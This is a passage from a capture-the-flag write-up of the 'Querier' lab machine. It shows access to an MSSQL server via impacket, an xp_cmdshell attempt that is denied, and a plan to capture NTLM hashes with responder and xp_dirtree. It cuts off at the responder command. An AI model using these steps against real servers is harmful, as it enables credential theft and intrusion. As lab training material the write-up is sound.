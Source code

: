 [[Top]](#top)

# Weaponize

Obviously I wanted to connect to the database now. For tasks like this I use the "impacket" toolset.

`./mssqlclient.py -windows-auth reporting@querier`

![sql_access](sql_access.png)

When you have access to a "Microsoft-SQL" Server, always check for the `xp_cmdshell` option to run commands on the
operating system.

{{< highlight bash >}}
SQL> xp_cmdshell cmd.exe
[-] ERROR(QUERIER): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
{{< / highlight >}}

No dice. Permission denied.

But, of cause there's a way around that. By pure chance I watched a video of ippsec who had the very same problem in a box earlier that week.

{{< youtube J2unwbMQvUo >}}

So I went back and checked what he did.

`xp_dirtree` to the rescue.

With `xp_dirtree` I can list folders and shares. And as Windows loves to do "single-sign-on" for the user with it's "NTLM" hash
I can try to intercept it.

In order to grab the "NTLM-Hash" I need the tool named "responder" in one terminal and run the `xp_dirtree` command for the share created
by "responder" in another terminal.

{{< highlight bash >}}
-----------Terminal 1--------------
$ responder -I tun0 -wrfv
